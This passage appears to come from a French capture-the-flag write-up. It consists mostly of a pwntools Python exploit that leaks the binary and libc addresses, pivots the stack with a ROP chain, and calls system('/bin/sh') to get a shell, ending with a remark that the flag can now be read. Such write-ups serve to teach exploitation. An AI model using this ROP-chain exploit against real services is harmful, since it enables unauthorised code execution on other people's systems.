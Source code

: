 ```python

	binary_offset = io.recvline().split(b'1'*8)[1].split(b'?')[0]
	binary_offset = bytearray(binary_offset).ljust(8, b'\x00')
	binary_offset = u64(binary_offset, endian='little')
	binary_offset -= 0x40c0
	log.success(f'Leaked Binary Offset: {str(hex(binary_offset))}')

	#STEP 2 Stack Pivot

	got_puts = p64(binary_offset + 0x4018) #Adresse de puts lien pointeur mémoire
	plt_puts = p64(binary_offset + 0x1030) #Adresse du pointeur de puts
	pop_rdi = p64(binary_offset + 0x13c3) #Adresse d'un pop rdi qui nous permet de ne pas juste crash
	buy_function = p64(binary_offset + 0x132a) #Adresse de la fonction buy
	padding_to_rop_chain = b'a'*40

	rop_chain = pop_rdi + got_puts + plt_puts + buy_function
	padding_to_stack_pivot = (72 - len(padding_to_rop_chain) - len(rop_chain)) * b'b'
	sub_rsp = p64(0x1219 + binary_offset) #0x1219 venant de ROPGadget

	payload = padding_to_rop_chain + rop_chain + padding_to_stack_pivot + sub_rsp
	print(payload)

	io.sendlineafter('\n> ', '1')
	io.sendafter('Enter details: ', payload)

	leaked_puts_libc = io.recvline()[:6]
	leaked_puts_libc = bytearray(leaked_puts_libc).ljust(8, b'\x00')
	leaked_puts_libc = u64(leaked_puts_libc, endian='little')
	log.success(f'Leaked puts@GLIBCL Offset: {str(hex(leaked_puts_libc))}')

	#Find offset in LIBC
	libc_puts = 0x06f6a0
	libc_system = 0x0453a0
	libc_sh = 0x18ce17

	libc_offset = leaked_puts_libc - libc_puts

	system = p64(libc_offset + libc_system)
	log.info(f'Calculated System Location: {str(hex(u64(system)))}')
	sh = p64(libc_offset + libc_sh)
	log.info(f'Calculated Sh Location: {str(hex(u64(sh)))}')

	#STEP 4 Exploit
	rop_chain = pop_rdi + sh + system
	padding_to_stack_pivot = (72 - len(padding_to_rop_chain) - len(rop_chain)) * b'b'

	payload = padding_to_rop_chain + rop_chain + padding_to_stack_pivot + sub_rsp

	io.sendafter('Enter details: ', payload)

	io.interactive()

if __name__ == '__main__':
	main()
```

Nous pouvons maintenant récupérer le flag ! Mais il est possible qu’il y ai une fois de temps en temps une erreur et que nous devons relancer l’exploit.